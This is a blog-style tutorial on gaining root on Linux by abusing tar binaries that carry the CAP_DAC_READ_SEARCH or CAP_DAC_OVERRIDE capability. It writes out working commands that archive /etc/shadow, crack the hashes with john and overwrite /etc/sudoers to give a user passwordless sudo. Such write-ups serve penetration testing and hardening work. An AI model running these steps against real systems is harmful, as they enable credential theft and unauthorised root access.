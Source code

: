 ```yaml
---
layout: post
title: Abusing /tar capabilities to escalate privileges
date: 2023-05-13 00:12 +0000
comments: active
#image: /assets/img/Mr10.jpg
categories: [Privilege Escalation]
tags: [Privilege Escalation]
---
```


If ***/tar*** has the ***CAP_DAC_READ_SEARCH*** or ***CAP_DAC_OVERRIDE*** Linux capability set to the binary, it can be abused to escalate privileges to root. 

[Hack Tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities){:target="_blank"}{:rel="noopener noreferrer"} does a good job at explaining how Linux capabilities works. Simply put, Linux capabilities provide a subset of the available root privileges to a process or binary. This is meant to reduce the attack surface of a system, but if it is not configured correctly it can lead to privilege escalation. 

## What is /tar?
/tar is a Linux binary installed by default on the majority of Nix based operating systems. It stands for '**Tape Archive'** and is used to create, extract and compress archives. You may be familiar with the file formats:

> `foo.tar` - Uncompressed data. Bundles together multiple files into an 'archive' or a 'tarball'. Can also be used to archive a single file.
{: .prompt-info }
> `foo.gz` - Compressed data. Can be used to compress a .tar file.
{: .prompt-info }
> `foo.tar.gz` - A compressed archive file.
{: .prompt-info }

To check if /tar is installed, you can run the following command:
```bash
which tar
```
>`/usr/bin/tar`

## Determining if /tar is vulnerable 
To check what capabilities are set to /tar, you can run the following command:
```bash
getcap /usr/bin/tar
```
If it is vulnerable, you will see one of the following:
>`/usr/bin/tar = cap_dac_read_search+ep`

>`/usr/bin/tar = cap_dac_override+ep`

## Privilege escalation process  
### CAP_DAC_READ_SEARCH Method
***CAP_DAC_READ_SEARCH*** allows binaries to bypass file read, and directory read and execute permissions. This means /tar can be used to access sensitive areas of an operating system as a normal user, such as the /etc/shadow file or the /root directory. To create an archive of the /etc/shadow file, you can run the following command:
```bash
tar -czf /tmp/shadow.tar.gz /etc/shadow
```

The /tar flags are important to understand:
> `-c` : Creates archive 

> `-z` : Compresses an archive with gzip

> `-f` : Designated file name

The file can then be decompressed and printed out to view the hashed passwords:
```bash
gzip -d /tmp/shadow.tar.gz 
cat /tmp/shadow.tar
```
```
root:$6$HbEKQFPH$5qqq6gXYJpsQpk0ZNGD1R/WClLPawMYLuL9Kn.PQE5W4grdRtoopgvgRJZs36A0a7Nwvi4L53B0yiSA.3Hq7k/:19171:0:99999:7::: 
bin:*:18353:0:99999:7:::
apache:!!:19171::::::
```
{: file="shadow.tar" }
Shadow hashes can be cracked with john, using the following command:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
If the password is not too strong, the password may be cracked out:
![John cracking the Hash](/assets/img/screenshots/john_hash_cracked.png)
_The hashed password was cracked out to 'root'_

If the password is too strong, it may not be able to be cracked out with John. Enumerating the target machine for other sensitive areas which may contain files of interest could still assist with escalating privileges. This could include archiving the /root directory to search for things such as SSH keys, or archiving other applications which may store configuration files and passwords.

### CAP_DAC_OVERRIDE Method
***CAP_DAC_OVERRIDE*** gives the same rights to a binary as ***CAP_DAC_READ_SEARCH***, except it also means you can bypass write permission checks on any file, so you can write to any file. If the /tar binary has this capability set, all you need to do is use /tar to overwrite the /etc/sudoers file.

Begin by creating a file called 'sudoers' that gives sudo rights to your low privilege user:
```bash
echo "mr10 ALL=(ALL) NOPASSWD:ALL" > sudoers
```
Archive and compress the file:
```bash
tar -czf sudoers.tar.gz sudoers
```
Decompress the file:
```bash
gzip -d sudoers.tar.gz
```
Extract the archive file into the /etc directory:
```bash
tar -xf sudoers.tar --directory /etc/
```
Elevate your privileges to root:
```bash
sudo su
```
The same method can be used to update the /etc/passwd file or the /etc/shadow file, allowing you to update root passwords or other administrator accounts.

<br>

Happy Hacking,

Mr10 💎